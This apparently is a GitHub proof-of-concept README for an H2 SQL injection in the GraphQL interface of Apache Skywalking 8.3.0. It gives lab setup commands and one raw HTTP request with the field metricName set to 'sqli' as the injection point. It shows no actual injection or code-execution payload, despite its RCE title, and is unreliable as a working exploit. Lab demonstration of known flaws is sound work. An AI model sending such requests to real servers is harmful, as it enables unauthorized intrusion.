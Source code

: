 # POC_Apache_Skywalking-8.3.0_SQL_Injection_to_RCE
Application performance monitor tool for distributed systems, especially designed for microservices, cloud native and container-based (Docker, Kubernetes, Mesos) architectures.

In GraphQL interfaces of Apache Skywalking 8.3.0 and previous, there is a H2 Database SQL injection vulnerability.

# Vulnerability environment
Let's install Apache Skywalking 8.3.0 using the following commands.<br>
# Prerequisites
Java Development Kit (JDK): Apache Skywalking requires Java to run. Make sure you have Java 8 or later installed on your system
```bash
sudo apt update && sudo apt install openjdk-11-jdk -y
```
Set Environment Variables
```bash 
export JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64
```
# Download Apache Skywalking 8.3.0
```bash
wget https://archive.apache.org/dist/skywalking/8.3.0/apache-skywalking-apm-8.3.0.tar.gz
```
Extract the downloaded archive
```bash
tar -zxvf apache-skywalking-apm-8.3.0.tar.gz
```
Start Apache Skywalking
```bash
cd apache-skywalking-apm-bin/bin
./startup.sh
```
After the environment is started, visit http://your-ip:8080 to view the Skywalking page.
# POC
The HTTP request of this GraphQL query is
```bash
POST /graphql HTTP/1.1
Host: 192.168.1.12:8080
Content-Length: 405
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.88 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.1.12:8080
Referer: http://192.168.1.12:8080/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

{
    "query":"query queryLogs($condition: LogQueryCondition) {
  queryLogs(condition: $condition) {
    total
    logs {
      serviceId
      serviceName
      isError
      content
    }
  }
}
",
    "variables":{
        "condition":{
            "metricName":"sqli",
            "state":"ALL",
            "paging":{
                "pageSize":10
            }
        }
    }
}
```
# References:
https://youtu.be/CtkhTjB95Z0












